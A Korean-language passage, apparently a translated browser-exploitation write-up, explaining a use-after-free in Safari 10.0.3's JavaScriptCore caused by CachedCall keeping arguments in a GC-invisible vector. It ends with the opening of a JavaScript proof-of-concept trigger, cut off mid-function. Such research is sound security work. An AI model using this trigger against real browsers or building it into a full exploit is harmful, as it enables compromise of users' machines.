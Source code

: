 ```c++
        }

    // ...
```

[[ 0 ]] 에서는 CachedCall 인스턴스를 생성하는데, 이는 나중에 콜백 함수를 호출할 때 사용된다. Safari 10.0.3 에서 사용하는 Webkit 보관소의 branch에서 CachedCall 클래스는 아래와 같이 구성되어 있다.

```c++
class CachedCall {

    // ...

    private:
        bool m_valid;
        Interpreter* m_interpreter;
        VM& m_vm;
        VMEntryScope m_entryScope;
        ProtoCallFrame m_protoCallFrame;
        Vector<JSValue> m_arguments;
        CallFrameClosure m_closure;
};
```

`m_arguments` 라는 변수명에서 볼 수 있듯이, Cachedcall 에서는 인자값을 저장하기 위해 WTF::Vector 타입을 사용하고 있다. 그리고 코드에서는 [[1]] 의 jsSubstring 에서만 `m_arguments` 멤버변수를 참조하고 있다. 

이 변수와 타입의 문제점을 이야기하기 전에 먼저 가비지 컬렉터에 대해 알아볼 필요가 있다. JavaScriptCore에서 가비지 컬렉터에 의해 수명이 관리되는 모든 객체는 JSCell 로부터 상속된다. 가비지 컬렉터의 동작 알고리즘(Mark & sweep)에 따라, JSCell에 대한 참조를 탐색하기 위해 주로 찾아가는 루트가 있다.

- 현재의 call stack
- 흔히 전역 객체(global object) 라고 불리는  전역 자바스크립트 실행 컨텍스트(global JavaScript execution context)
- 몇몇 특별한 버퍼 - MarkedArgumentBuffer 등등
- 기타 등등

이러한 위치로부터 탐색한 결과, 어떤 곳에서도 참조를 하지 않는(도달하지 않는) 객체의 경우, 가비지 컬렉터의 sweep 단계에서 free 될 수 있다. 

다시 `m_arguments` 로 돌아가 보자. CachedCall 에서 `m_arguments` 가 사용하는 `WTF::Vector` 타입은 Opaque 데이터 타입으로, 외부 인터페이스에서는 타입의 내부 구조를 명확히 알 수 없도록 구성되어 있다. 이런 특징으로 인해 가비지 컬렉터는 `m_arguments` 내부에서 어떤 객체를 참조하고 있는지 정확히 체크할 수 없다. 따라서, 만약 특정 객체에 대한 유일한 참조가 `WTF::Vector` 타입 안에 들어 있다면 가비지 컬렉터는 해당 객체의 참조를 찾지 못해 그 객체를 free 해 버리는 경우가 생길 수 있다.

이런 문제점을 활용하기 위해, 위 코드의 [[1]] 에서 새로운 string 인자를 할당하는 중에 가비지 컬렉팅이 일어났다고 가정해 보자(가비지 컬렉팅은 언제든 발생할 수 있으므로 충분히 일어날 수 있는 일이다). 그 결과 이전에 사용하던 인자값(JSString 인스턴스)들은 sweep 및 free 가 될 것이다. 이후 [[2]] 에서 `cachedCall.call()` 을 호출하면, cachedCall 의 콜백 함수 내에서는 앞서 free 되고 남은 JSCells 포인터를 인자값으로 착각하고 사용(Use-After-Free)하게 된다. 가비지 컬렉팅은 콜백 전에 발생해야 한다. 

poc-cached call-uaf.js 파일은 위 가정을 증명하는 PoC 코드로, Safari 10.0.3에서 작동한다. 스크립트 마지막의 i_am_free 는 JSString 이 free 되고 남은 포인터이다. JSCell 헤더가 free-list 포인터(역주 - heap exploit의 bin과 유사)로 덮어 씌워지기 때문에, `typeof()` 이외의 작업을 하면 크래시가 발생할 가능성이 있다. 관련 소스 코드는 다음과 같다.


```javascript
function i_want_to_break_free() {
    var n = 0x40000;
    var m = 10;
    var regex = new RegExp("(ab)".repeat(n), "g"); // g flag to trigger the vulnerable path // (ab)(ab)(ab)(ab)(ab)...(ab)
    var part = "ab".repeat(n); // matches have to be at least size 2 to prevent interning
    var s = (part + "|").repeat(m); // ab|ab|ab|ab|ab|ab|ab|....ab|ab|
    while (true) {
        var cnt = 0;
        var ary = [];
        s.replace(regex, function() {
            for (var i = 1; i < arguments.length-2; ++i) {
                if (typeof arguments[i] !== 'string') {
                    i_am_free = arguments[i];
                    throw "success";
```